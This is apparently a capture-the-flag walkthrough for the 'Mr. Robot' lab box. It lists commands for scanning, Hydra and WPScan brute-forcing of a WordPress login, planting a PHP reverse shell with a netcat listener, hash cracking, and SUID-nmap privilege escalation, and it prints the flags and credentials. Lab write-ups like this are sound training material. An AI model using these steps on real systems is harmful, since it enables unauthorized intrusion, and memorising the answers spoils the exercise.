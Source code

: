 # MR. ROBOT CTF BOX

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.6.40.234

--------------------------------------------------------------------

## PROCEDURE

### 1. FIND FLAG 1

**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.6.40.234
```

![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
22 (ssh),<br>
80 (http),<br>
443 (http)

```
gobuster dir -u "http://10.6.40.234" -w /usr/share/dirb/wordlists/common.txt
```

Status code 200 means success
![gobuster](./imgs/gobuster.png)

Go to http://10.10.3.80/robots.txt<br>
robots.txt is a common file found on websites that gives a list of files that are off limits for bots (web crawlers)

FILES: key-1-of-3.txt, fsocity.dic

FLAG 1: 073403c8a58a1f80d943455fb30724b9

--------------------------------------------------------------------

### 2. FIND FLAG 2

**TOOLS**: Burp Suite, Hydra, WPScan, netcat, john

Use Burp Suite to intercept a failed login

![Burp Suite](./imgs/burp_suite.png)

INTERCEPTED POST REQUEST: log=name&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.176.17%2Fwp-admin%2F&testcookie=1

We can now feed this into hydra to brute force the login

First use fsocity.dic to find username with static password
```
hydra -L fsocity.dic -p test 10.6.40.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```
"/wp-login.php" is the page<br>
"log=^USER^&pwd=^PWD^" are the parameters<br>
"Invalid username" is what a failure looks like<br>
-t 30 is the# of threads

![Hydra 1](./imgs/hydra1.png)

Invalid User<br>
![Admin](./imgs/incorrect_user.png)

User Exists<br>
![Elliot](./imgs/correct_user.png)

Use that username to brute force password using fsocity.dic again

```
wpscan -U "Elliot" -P fsocity.dic --url 10.6.40.234
```

![WPScan](./imgs/wpscan.png)

USER: Elliot
PASSWORD: ER28-0652

Login then go to editor and paste in PHP Reverse Shell code (payload.php) from pentest-monkey. I edited the 404.php page

![Editor](./imgs/editor.png)

```
nc -nlvp 4444
```

Then go http://10.10.63.226/wp-content/themes/twentyfifteen/404.php to to trigger shell

User doesn't have access to flag.

Found password hash:<br>
robot:c3fcd3d76192e4007dfb496cca67e13b

```
john hash.txt --wordlist=fsocity.dic --format=Raw-MD5 --fork=8
```

PASSWORD: abcdefghijklmnopqrstuvwxyz


Need to run this in php reverse shell to get interactive shell
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Get access to robot user

```
su robot
```

FLAG 2: 822c73956184f694993bede3eb39f959

--------------------------------------------------------------------

### 3. FIND FLAG 3

To find binaries for privilege escalation
```
find / -user root -perm /4000 2>/dev/null
```

Target is /usr/local/bin/nmap<br>
Found here https://gtfobins.github.io/gtfobins/nmap/

```
/usr/local/bin/nmap --interactive
!sh
```

FLAG 3: 04787ddef27c3dee1ee161b21670b4e4
